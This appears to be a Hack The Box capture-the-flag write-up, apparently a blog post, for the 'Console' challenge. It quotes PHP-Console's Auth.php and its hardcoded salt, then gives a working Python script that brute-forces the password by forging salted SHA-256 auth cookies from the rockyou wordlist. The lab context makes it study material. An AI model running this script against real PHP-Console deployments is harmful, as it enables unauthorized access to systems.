 +++
title = "Console"
date = 2020-06-18
[taxonomies]
tags = ["hackthebox"]
+++

1. "Could you please check the console of your Chrome?"

	Upon investigating the URL, it showed a php info status page which hinted to load php-console in order to be prompted for a password. At first I didn't know what this meant until I read the hints about downloading a chrome extension.
	
	![htb-console-1.png](htb-console-1.png)
	
	![htb-console-2.png](htb-console-2.png)
	
	Prior before knowing about the Chrome extension, I intercepted some HTTP requests to see what it looks like.

	![htb-console-3.png](htb-console-3.png)
	
	As you can see, nothing really interesting is found. Now if you used the PHP-Console extension, you see extra HTTP headers added to the HTTP request.
	
	![htb-console-4.png](htb-console-4.png)
	
	I noticed how the `php-console-client` cookie parameter was base64 encoded so I decoded it.
	
	![htb-console-5.png](htb-console-5.png)
	
	There we go, a token parameter is found. It's starting to make some sense now of what I need to do. I thought about two questions, first is how can I generate a token? I know that the Chrome extension accepts a password for login but how would I streamline the process to brute force with a dictionary? The second question is, how is a token created? What data type is it using? Is it encrypted? The only way answer these questions is looking at the source code.

2.	Looking at the source code of PHP-Console application, there is an interesting `auth.php` file that handles [token generation](https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php).

	```php
	<?php
	
	namespace PhpConsole;
	
	/**
	* PHP Console client authorization credentials & validation class
	*
	* @package PhpConsole
	* @version 3.1
	* @link http://consle.com
	* @author Sergey Barbushin http://linkedin.com/in/barbushin
	* @copyright © Sergey Barbushin, 2011-2013. All rights reserved.
	* @license http://www.opensource.org/licenses/BSD-3-Clause "The BSD 3-Clause License"
	* @codeCoverageIgnore
	*/
	class Auth {
	
	const PASSWORD_HASH_SALT = 'NeverChangeIt:)';
	
	protected $publicKeyByIp;
	protected $passwordHash;
	
	/**
	 * @param string $password Common password for all clients
	 * @param bool $publicKeyByIp Set public key depending on client IP
	 */
	public function __construct($password, $publicKeyByIp = true) {
		$this->publicKeyByIp = $publicKeyByIp;
		$this->passwordHash = $this->getPasswordHash($password);
	}
	
	protected final function hash($string) {
		return hash('sha256', $string);
	}
	
	/**
	 * Get password hash like on client
	 * @param $password
	 * @return string
	 */
	protected final function getPasswordHash($password) {
		return $this->hash($password . self::PASSWORD_HASH_SALT);
	}
	
	/**
	 * Get authorization result data for client
	 * @codeCoverageIgnore
	 * @param ClientAuth|null $clientAuth
	 * @return ServerAuthStatus
	 */
	public final function getServerAuthStatus(ClientAuth $clientAuth = null) {
		$serverAuthStatus = new ServerAuthStatus();
		$serverAuthStatus->publicKey = $this->getPublicKey();
		$serverAuthStatus->isSuccess = $clientAuth && $this->isValidAuth($clientAuth);
		return $serverAuthStatus;
	}
	
	/**
	 * Check if client authorization data is valid
	 * @codeCoverageIgnore
	 * @param ClientAuth $clientAuth
	 * @return bool
	 */
	public final function isValidAuth(ClientAuth $clientAuth) {
		return $clientAuth->publicKey === $this->getPublicKey() && $clientAuth->token === $this->getToken();
	}
	
	/**
	 * Get client unique identification
	 * @return string
	 */
	protected function getClientUid() {
		$clientUid = '';
		if($this->publicKeyByIp) {
			if(isset($_SERVER['REMOTE_ADDR'])) {
				$clientUid .= $_SERVER['REMOTE_ADDR'];
			}
			if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
				$clientUid .= $_SERVER['HTTP_X_FORWARDED_FOR'];
			}
		}
		return $clientUid;
	}
	
	/**
	 * Get authorization session public key for current client
	 * @return string
	 */
	protected function getPublicKey() {
		return $this->hash($this->getClientUid() . $this->passwordHash);
	}
	
	/**
	 * Get string signature for current password & public key
	 * @param $string
	 * @return string
	 */
	public final function getSignature($string) {
		return $this->hash($this->passwordHash . $this->getPublicKey() . $string);
	}
	
	/**
	 * Get expected valid client authorization token
	 * @return string
	 */
	private final function getToken() {
		return $this->hash($this->passwordHash . $this->getPublicKey());
	}
	}
	```
	
	After reviewing the code, I figured out the token is salted and using sha256 to generate the token. It was a matter of creating a brute forcing python script to figure out what is the actual password to log into PHP-Console Chrome extension.
	
	```python
	import requests
	from hashlib import sha256
	from base64 import b64encode
	import json
	
	url = "http://docker.hackthebox.eu:31828"
	
	# publickey found in the PHP-Console HTTP header
	publickey = "d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e"
	
	# Open rockyou.txt file in read mode
	file = open("./rockyou.txt","r")
	
	# Create for loop to iterate through each entry in rockyou.txt
	for x in range(1000):
	   word = file.readline().strip()
	
	   # For every line in rockyou.txt, append the salt to prepare to later create the hash
	   password = word + "NeverChangeIt:)"
	
	   # return hash('sha256', $string);
	   # In the auth.php, it uses sha256 to create the hash using the string + salt.
	   hash = sha256(password.encode()).hexdigest()
	
	   # return $this->hash($this->passwordHash . $this->getPublicKey());
	   # Also it uses the sha256 salted hash with the publickey to generate another sha256 hash for the token.
	   token = sha256((hash + publickey).encode()).hexdigest()
	
	   # Now start putting together the HTTP GET request starting with the HTTP header paramters
	   phpconsoleclient = '{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"' + str(token) + '"}}'
	
	   # The original GET request has encoded php-console-client into base64, this step is doing the same thing. The decode function changes the object type
	   # from bytes to string.
	   phpconsoleclient = b64encode(phpconsoleclient.encode()).decode()
	
	   # Add all the cookies required in the original GET request.
	   cookies = 'php-console-server=5; php-console-client=' + str(phpconsoleclient)
	
	   # Create a python dictionary object to store the header parameters
	   headers = { 'Cookie' : cookies }
	
	   # Create HTTP GET request with url and HTTP headers
	   r = requests.get(url, headers=headers)
	
	   # Append php-console to the GET request HTTP header
	   phpconsoleclient = r.headers['PHP-Console']
	   phpconsoleclient = json.loads(phpconsoleclient)
	
	   # Print the word in the current interation when isSuccess equals to True. This is the word that will allow access to PHP-Console chrome plugin.
	   status = phpconsoleclient["auth"]["isSuccess"]
	   if(status != False):
	       print(word)
	       break
	
	# close rockyou.txt
	file.close()
	```
	
	Running the python script will uncover the password and upon PHP-Console login, the flag can be found in the Chrome console.
	
	![htb-console-6.png](htb-console-6.png)
	
	![htb-console-7.png](htb-console-7.png)
	
	![htb-console-8.png](htb-console-8.png)